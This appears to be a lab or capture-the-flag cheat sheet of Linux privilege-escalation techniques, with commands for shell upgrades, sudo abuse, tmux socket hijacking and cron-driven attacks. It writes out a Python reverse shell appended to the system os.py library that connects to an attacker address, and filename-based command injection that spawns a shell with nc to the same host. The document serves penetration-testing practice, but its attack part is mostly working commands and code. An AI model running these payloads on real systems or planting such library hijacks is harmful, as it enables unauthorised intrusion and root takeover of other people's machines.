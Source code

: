 # Linux Priv escalation Tips

# ${{\color{purple}Upgrade shell}}\ $

`python -c 'import pty; pty.spawn("/bin/bash")'`

`python3 -c 'import pty; pty.spawn("/bin/bash")'`

# ${{\color{purple}Manual testing}}\ $
# ${{\color{green}sudo -l}}\ $

`sudo -l`

![1](https://user-images.githubusercontent.com/123066149/225001578-46a486b7-bf12-44ef-b52d-1408ef34fb1e.PNG)

`sudo -u scriptmanager /bin/bash`

![image](https://user-images.githubusercontent.com/123066149/225002081-e468220b-fddf-493b-a817-7d64b90accc1.png)

# ${{\color{green}tmux}}\ $

``cat .bash_history``

![image](https://user-images.githubusercontent.com/123066149/226274014-d15271f8-178e-4891-9a3a-7e7fba239035.png)

``ps aux | grep -i tmux``

![image](https://user-images.githubusercontent.com/123066149/226274186-eb4fb8f5-1e4b-4752-ac3d-3fe6e9889d3d.png)

``ls -la /.devs/dev_ses``

![image](https://user-images.githubusercontent.com/123066149/226274516-f2a84f6f-121b-44b6-85c2-84cbb944435a.png)

``export TERM=xterm``
``tmux -S /.devs/dev_sess``

![image](https://user-images.githubusercontent.com/123066149/226274864-b5db7a5e-f19f-4854-929f-aa2f491ae328.png)
![image](https://user-images.githubusercontent.com/123066149/226275042-06bc4a86-474e-486f-a4e4-00ac3e2e4950.png)

# ${{\color{green}crontab + lib os}}\ $

``ls /opt``

![image](https://user-images.githubusercontent.com/123066149/227714929-a9d3bf80-7aed-465e-b1cc-0bdc72116b0a.png)

![image](https://user-images.githubusercontent.com/123066149/227715049-c670f729-a237-4a63-b208-826d06931d66.png)

``cd /usr/lib``

![image](https://user-images.githubusercontent.com/123066149/227715097-471f6bf7-c430-4469-9b17-11bd4a4baaa3.png)

### I added a reverse shell to end of the library ``/usr/lib/python2.7/os.py``

``import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.16.3",4455))
dup2(s.fileno(),0) 
dup2(s.fileno(),1)
dup2(s.fileno(),2)
import pty
pty.spawn("/bin/bash")``

![image](https://user-images.githubusercontent.com/123066149/227715198-26be459a-977a-4b3d-bd81-e6e10ee4c6c8.png)

### As soon as the crontab runs I am root :

![image](https://user-images.githubusercontent.com/123066149/227715364-37deff06-5fa2-4b2b-94ef-baf5fddc6deb.png)

# ${{\color{green}crontab + exec() fonction }}\ $

### Browsing to the home folder of the user, two files named check_attack.php and crontab.guly are
### found.

![image](https://user-images.githubusercontent.com/123066149/227843320-a1b71d72-746c-4e17-b4f5-86e265ca86f9.png)

### Here are the contents of the check_attack.php file:

![image](https://user-images.githubusercontent.com/123066149/227844068-b8db5212-4a6f-4750-a795-26b2d0caf341.png)

### The script lists files in the /uploads folder and checks if it is valid based on filename. Any invalid
### files are removed using the system exec() function

![image](https://user-images.githubusercontent.com/123066149/227844227-1976b7a1-48f0-4c01-a085-fb9797b432de.png)

### The $value variable stores the filename, but isn’t sanitized by the script, which means that we can
### inject commands through special file names. For example, a file named “; cmd” will result in the
### command:

![image](https://user-images.githubusercontent.com/123066149/227844740-539c6b45-6e74-4567-9540-b191b026b398.png)

``touch -- ';ping -c 3 10.10.16.3;.php'``

![image](https://user-images.githubusercontent.com/123066149/227845494-d10710e3-4933-48f8-8e2c-a21432e1a0c5.png)

![image](https://user-images.githubusercontent.com/123066149/227846087-d38a33ba-4258-4c9c-89fe-eb9ec5c5e2cc.png)

``touch -- ';nc -c sh 10.10.16.3 5000;.php'``

![image](https://user-images.githubusercontent.com/123066149/227846212-c4f52290-2b68-48bb-b91a-4d7130e08c0d.png)

#### Looking at the sudo privileges, we see that guly can execute changename.sh as root.

![image](https://user-images.githubusercontent.com/123066149/227846847-5740d7e8-5a43-4e94-9b37-bdc8bd2fe270.png)

https://seclists.org/fulldisclosure/2019/Apr/24

``sudo -l``

![image](https://user-images.githubusercontent.com/123066149/227845992-a2b2c4a3-fb09-461b-bcb1-4d12bec8eec1.png)

### The script creates a configuration for the guly0 network interface and uses “ifup guly0” to
### activate it at the end. The user input is validated, and only alphanumeric characters, slashes or a
### dash are allowed. Network configuration scripts on CentOS are vulnerable to command injection
### through the attribute values as described here. This is because the scripts are sourced by the
### underlying service, leading to execution of anything after a space.
### We can exploit this by executing /bin/bash as root



# ${{\color{purple}Script}}\ $
# ${{\color{green}LinPeas}}\ $

https://github.com/carlospolop/PEASS-ng/releases/tag/20230319

# ${{\color{green}LinEnum}}\ $

https://github.com/rebootuser/LinEnum

# ${{\color{green}Linux-Exploit-Suggester}}\ $

https://github.com/The-Z-Labs/linux-exploit-suggester

# ${{\color{purple}}}\ $

